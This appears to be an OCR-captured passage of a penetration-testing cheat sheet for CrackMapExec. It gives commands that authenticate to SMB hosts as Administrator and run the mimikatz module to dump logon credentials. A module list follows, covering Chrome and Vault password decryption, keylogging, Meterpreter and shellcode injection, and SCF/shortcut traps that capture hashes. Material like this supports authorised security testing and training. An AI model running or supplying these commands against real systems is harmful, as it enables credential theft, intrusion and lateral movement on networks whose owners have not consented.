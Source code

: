 # Using credentials from the database
crackmapexec smb 192.168.100.1 -id <credsID>

Modules

# List available modules
crackmapexec smb -L

# Module information
crackmapexec smb -M mimikatz --module-info

# View module options
crackmapexec smb -M mimikatz --options

# Mimikatz module
crackmapexec smb 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth -M mimikatz
crackmapexec smb 192.168.215.104 -u 'Administrator' -p 'PASS' -M mimikatz
crackmapexec smb 192.168.215.104 -u Administrator -p 'P@ssw0rd' -M mimikatz -o COMMAND='privilege::debug'

[*] Get-ComputerDetails       Enumerates sysinfo
[*] bloodhound                Executes the BloodHound recon script on the target and retreives the results to the attackers\' machine
[*] empire_exec               Uses Empire\'s RESTful API to generate a launcher for the specified listener and executes it
[*] enum_avproducts           Gathers information on all endpoint protection solutions installed on the the remote host(s) via WMI
[*] enum_chrome               Decrypts saved Chrome passwords using Get-ChromeDump
[*] enum_dns                  Uses WMI to dump DNS from an AD DNS Server
[*] get_keystrokes            Logs keys pressed, time and the active window
[*] get_netdomaincontroller   Enumerates all domain controllers
[*] get_netrdpsession         Enumerates all active RDP sessions
[*] get_timedscreenshot       Takes screenshots at a regular interval
[*] gpp_autologin             Searches the domain controller for registry.xml to find autologon information and returns the username and password.
[*] gpp_password              Retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences.
[*] invoke_sessiongopher      Digs up saved session information for PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP using SessionGopher
[*] invoke_vnc                Injects a VNC client in memory
[*] met_inject                Downloads the Meterpreter stager and injects it into memory
[*] mimikatz                  Dumps all logon credentials from memory
[*] mimikatz_enum_chrome      Decrypts saved Chrome passwords using Mimikatz
[*] mimikatz_enum_vault_creds Decrypts saved credentials in Windows Vault/Credential Manager
[*] mimikittenz               Executes Mimikittenz
[*] multirdp                  Patches terminal services in memory to allow multiple RDP users
[*] netripper                 Capture`\'s credentials by using API hooking
[*] pe_inject                 Downloads the specified DLL/EXE and injects it into memory
[*] rdp                       Enables/Disables RDP
[*] scuffy                    Creates and dumps an arbitrary .scf file with the icon property containing a UNC path to the declared SMB server against all writeable shares
[*] shellcode_inject          Downloads the specified raw shellcode and injects it into memory
[*] slinky                    Creates windows shortcuts with the icon attribute containing a UNC path to the specified SMB server in all shares with write permissions
[*] test_connection           Pings a host
[*] tokens                    Enumerates available tokens
[*] uac                       Checks UAC status